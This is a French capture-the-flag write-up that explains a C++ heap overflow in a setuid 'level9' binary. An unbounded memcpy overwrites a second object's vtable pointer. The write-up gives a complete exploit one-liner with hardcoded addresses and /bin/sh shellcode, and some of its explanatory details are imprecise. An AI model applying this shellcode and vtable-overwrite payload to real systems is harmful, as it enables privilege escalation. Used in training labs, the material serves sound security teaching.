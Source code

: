 # LEVEL 9

## 1. Introduction

Le binaire `level9` présente une vulnérabilité de **buffer overflow** dans un programme **C++** avec **exploitation de vtable**. Le programme utilise des objets C++ avec des méthodes virtuelles, et nous devons exploiter un `memcpy()` non contrôlé pour écraser la vtable et rediriger l'exécution vers notre shellcode.

## 2. Analyse

### 2.1 Droits du binaire
```bash
$ ls -la level9
-rwsr-s---+ 1 level10  level9  747441 Mar  6  2016 level9
```

### 2.2 Analyse des protections
```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
```

**Points clés :**
- **No RELRO** : Pas de protection contre l'écrasement de la GOT
- **No canary** : Pas de protection contre buffer overflow
- **NX disabled** : Exécution de code sur la heap possible
- **No PIE** : Adresses fixes (pas d'ASLR)

### 2.3 Analyse du code source

En décompilant le binaire, on observe la structure suivante :

```cpp
/* N::setAnnotation(char*) */
void __thiscall N::setAnnotation(N *this, char *param_1) {
    size_t __n;
    
    __n = strlen(param_1);
    memcpy(this + 4, param_1, __n);  // ← Vulnérabilité !
    return;
}

void main(int param_1, int param_2) {
    N *this;
    undefined4 *this_00;
    
    if (param_1 < 2) {
        _exit(1);
    }
    this = (N *)operator.new(0x6c);       // Alloue objet 1 (108 bytes)
    N::N(this, 5);                        // Constructeur avec paramètre 5
    this_00 = (undefined4 *)operator.new(0x6c);  // Alloue objet 2 (108 bytes)
    N::N((N *)this_00, 6);                // Constructeur avec paramètre 6
    N::setAnnotation(this, *(char **)(param_2 + 4));  // ← Appel vulnérable !
    (**(code **)*this_00)(this_00, this); // ← Appel de méthode virtuelle !
    return;
}
```

**Points clés :**
- Programme **C++** avec objets et méthodes virtuelles
- `memcpy()` sans vérification de taille = vulnérabilité buffer overflow
- Deux objets alloués avec `operator.new(0x6c)` (108 bytes chacun)
- Appel de méthode virtuelle via **vtable** (notre cible)

### 2.4 Vulnérabilité identifiée

La vulnérabilité se trouve dans `N::setAnnotation()` :
- `memcpy(this + 4, param_1, strlen(param_1))` copie sans limite
- Peut déborder et écraser le second objet
- Le second objet contient une **vtable** pointant vers des méthodes virtuelles
- L'appel `(**(code **)*this_00)(this_00, this)` utilise cette vtable

## 3. Exploitation

### 3.1 Étape 1 : Compréhension de la vulnérabilité

```
┌─────────────────┐
│   Objet 1       │ ← this (108 bytes)
│   [vtable][data]│   memcpy(this + 4, ...) peut déborder
├─────────────────┤
│   Objet 2       │ ← this_00 (108 bytes)
│   [vtable][data]│   Cible à écraser
└─────────────────┘
```

### 3.2 Étape 2 : Stratégie d'exploitation

1. **Placer le shellcode** au début de notre payload
2. **Calculer l'offset** pour atteindre la vtable du second objet
3. **Écraser la vtable** pour qu'elle pointe vers notre shellcode
4. **Déclencher l'appel** de la méthode virtuelle

### 3.3 Étape 3 : Construction du payload

```bash
# Structure du payload :
# [Adresse shellcode][Shellcode][Padding][Adresse vers shellcode]
```

**Calculs :**
- Premier objet : 108 bytes
- Offset vers vtable du second objet : 108 bytes
- Shellcode : 28 bytes
- Padding : 108 - 4 - 28 = 76 bytes

### 3.4 Commandes complètes

```bash
# Se connecter au niveau
ssh level9@<IP> -p 4242

# Exécuter l'exploit
./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\x04\x08"')
```

## 4. Structure du Payload

### 4.1 Ce qui se passe concrètement

```
┌─────────────────────────────────────────────────────────┐
│              C++ VTABLE OVERWRITE                      │
├─────────────────────────────────────────────────────────┤
│  Adresse[4] + Shellcode[28] + Padding[76] + Vtable[4] │
│  │                                                    │
│  └─→ \x10\xa0\x04\x08 + shellcode + "A"*76 + \x0c...│
│      │                                                │
│      └─→ memcpy() déborde objet 1 → écrase objet 2   │
│          │                                            │
│          └─→ Vtable du second objet pointe vers      │
│              │                                        │
│              └─→ Notre shellcode dans l'objet 1      │
│                  │                                    │
│                  └─→ (**(code **)*this_00)() exécute │
│                      │                               │
│                      └─→ system("/bin/sh")           │
└─────────────────────────────────────────────────────────┘
```

### 4.2 Structure de la mémoire heap

```
┌─────────────────┐  Adresse 0x804a008
│   Vtable ptr    │  ← Pointeur vers vtable (4 bytes)
├─────────────────┤  Adresse 0x804a00c
│   Data (104)    │  ← Notre shellcode ici
│   \x10\xa0\x04  │
│   \x08 + shell  │
│   code + pad    │
└─────────────────┘  Fin objet 1
┌─────────────────┐  Début objet 2
│   Vtable ptr    │  ← Écrasé avec 0x804a00c
├─────────────────┤
│   Data (104)    │
└─────────────────┘
```

### 4.3 Exploitation vtable

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   Buffer        │    │   Vtable        │    │   Shellcode     │
│   Overflow      │───▶│   Overwrite     │───▶│   Execution     │
│   memcpy()      │    │   → shellcode   │    │   system("/sh") │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.4 Flux d'exécution

```
1. Programme alloue deux objets N (108 bytes chacun)
2. memcpy() copie notre payload dans objet 1 à partir de l'offset +4
3. Le payload déborde et écrase la vtable du second objet
4. (**(code **)*this_00)() appelle la méthode virtuelle
5. La vtable pointe maintenant vers notre shellcode
6. Le shellcode s'exécute et lance system("/bin/sh")
7. Shell s'ouvre avec les privilèges SUID de level10
```

### 4.5 Visualisation de l'exploitation

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   C++ Object    │    │   Vtable        │    │   Virtual Call  │
│   memcpy()      │───▶│   Overwrite     │───▶│   → shellcode   │
│   overflow      │    │   0x804a00c     │    │                │
└─────────────────┘    └─────────────────┘    └─────────────────┘
```

### 4.6 Mécanisme de vtable overwrite

```
┌─────────────────┐
│ Adresse shell   │ ← \x10\xa0\x04\x08 (début payload)
├─────────────────┤
│ Shellcode[28]   │ ← Code à exécuter
├─────────────────┤
│ Padding[76]     │ ← Pour atteindre vtable objet 2
├─────────────────┤
│ Vtable ptr      │ ← \x0c\xa0\x04\x08 (vers shellcode)
└─────────────────┘
```

## 5. Conclusion

Cette exploitation démontre les vulnérabilités spécifiques au C++ et l'importance de la validation des entrées dans les langages orientés objet. 